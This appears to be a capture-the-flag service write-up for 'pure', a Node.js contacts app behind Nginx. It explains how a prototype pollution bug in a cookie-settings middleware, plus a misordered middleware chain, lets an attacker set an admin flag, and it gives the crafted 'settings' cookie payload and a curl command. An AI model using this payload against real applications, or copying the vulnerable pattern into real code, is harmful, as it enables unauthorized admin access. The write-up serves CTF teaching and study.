 # pure

## Service Description
`pure` is a service to create/edit contacts. It is written in JavaScript and uses MongoDB as a data storage and Nginx as a reverse proxy:

![schema](schema.png)

The user interface allows to:

1. Register a new user:

   ![Example of registration screen](register.png)

2. Create a contact:
   ![Example of contact creation screen](create_contact.png)

3. Change theme to dark mode:
   ![Example of dark mode screen](dark_mode.png)

Also there is an admin interface that allows to view contacts of all users:
![Example of the admin interface](admin.png)

The access to the admin pages is protected using client certificate authentication. This protection is implemented with Nginx:


    server {
        ...
        ssl_client_certificate /etc/ssl/certs/ca.crt;
        ssl_verify_client optional;

        location / {
            ...
            proxy_set_header VERIFIED $ssl_client_verify;
            ...
        }
    }


Nginx checks the client certificate and set `VERIFIED` HTTP header. The application uses this header to set `req.session.isAdmin` property:


    if (req.headers && req.headers['verified'] == 'SUCCESS' && req.session) {
        req.session.isAdmin = true;
    } else {
        if (req.session && req.session.isAdmin) {
            delete req.session.isAdmin;
        }
    }


## Vulnerability Description

To steal the flags, teams should somehow set `req.session.isAdmin` property to `true` in the Node.JS application.

### Intended Way to Exploit
Property `req.session.isAdmin` can be set to `true` by exploiting the [Prototype Pollution](https://portswigger.net/web-security/prototype-pollution) vulnerability.

`cookieSettingsHandler` in [web/middlewares.js](../../services/pure/web/middlewares.js) allows to set arbitrary property name and an attacker could send a specially crafted `settings` cookie containing JSON-encode object `j:["__proto__",":",{"isAdmin": true, "cookie":{"originalMaxAge":null,"expires":null,"httpOnly":true,"path":"/"}}]`. This object will be decoded by the `cookieParser()`, and the following assignment will be executed:

```
req.session["__proto__"] = {"isAdmin": true, "cookie":{"originalMaxAge":null,"expires":null,"httpOnly":true,"path":"/"}};
```

### Unintended Way

Unfortunately, the following middlewares were added in wrong order:

```
app.use(middlewares.adminHandler);
app.use(middlewares.cookieSettingsHandler);
```

Because of this, an attacker could exploit the application much easier. The following `settings` cookie could be used to set `req.session.isAdmin` property: `settings=isAdmin:1` 


## Exploit

To exploit the vulnerability an attacker could send specially crafted `settings` cookie to the application:

    :::bash
    curl -k https://<HOST> --cookie 'connect.sid=<SESSION COOKIE>' --cookie \
    'settings=j:["__proto__",":",{"isAdmin": true, "cookie":{"originalMaxAge":null,"expires":null,"httpOnly":true,"path":"/"}}]'

You can find the full exploit [here](../../sploits/pure/sploit.py).
